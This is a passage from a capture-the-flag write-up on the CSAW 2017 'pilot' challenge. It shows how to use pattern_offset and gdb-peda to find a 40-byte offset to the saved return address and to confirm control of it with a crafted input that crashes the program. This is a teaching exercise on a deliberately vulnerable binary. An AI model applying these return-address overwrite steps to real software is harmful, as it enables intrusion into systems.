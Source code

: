 ![pilotPatternPEDA](/assets/img/pilotpatternpeda.png){: .center-image}

Armed with the portion of the unique string that overwrites the return address, we can provide this value as input for the 'pattern_offset' utility to calculate the exact offset in our user input string/buffer:

```bash
pattern_offset -l 100 -q 0x3562413462413362
[*] Exact match at offset 40
```

At this point, we've determined that we have to provide exactly 40 bytes of input before we can overwrite the subsequent 8 bytes (return address on the stack). We can validate this by providing an input string of 40 "A"s and 8 "B"s:

```bash
gdb ./pilot

[..snip..]

gdb-peda$ run < <(python -c 'print "A"*40 + "B"*8')
Starting program: /media/sf_CSAW17/Pwn/pilot/pilot < <(python -c 'print "A"*40 + "B"*8')
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fffffffe170
[*]Command:
Program received signal SIGSEGV, Segmentation fault.
```
